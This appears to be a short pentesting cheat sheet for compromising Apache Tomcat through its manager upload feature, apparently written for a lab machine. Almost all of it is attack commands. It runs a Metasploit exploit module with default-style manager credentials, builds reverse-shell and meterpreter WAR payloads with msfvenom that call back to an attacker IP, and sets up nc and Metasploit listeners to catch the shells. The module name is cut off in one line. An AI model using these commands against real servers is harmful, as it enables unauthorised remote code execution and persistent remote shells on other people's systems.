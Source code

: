 ```yaml
---
tags:
  - Pentesting
  - Exploitation
  - Apache
  - Tomcat
---
```

- https://www.exploit-db.com/exploits/31433
- https://www.rapid7.com/db/modules/exploit/multi/http/tomcat_mgr_upload/
- https://www.revshells.com/

## Metasploit

```
use exploit/multi/http/tomcat_mgr_uploa
set RHOST 10.10.10.95
set RPORT 8080
set LHOST 10.10.14.16
set LPORT 4444
set HttpUsername tomcat
set HttpPassword s3cret
options
run
```

## shell.war

**payload**

`msfvenom -p java/shell_reverse_tcp LHOST=10.10.14.16 LPORT=4444 -f war -o shell.war`

**listener**

`nc -lvnp 4444`

## shell.war

**payload**

`msfvenom -p java/meterpreter/reverse_tcp LHOST=10.10.14.16 LPORT=4444 -f war -o shell2.war`

**listener**

`msfconsole -q -x "use multi/handler; set payload java/meterpreter/reverse_tcp; set lhost 10.10.14.16; set lport 4444; exploit"`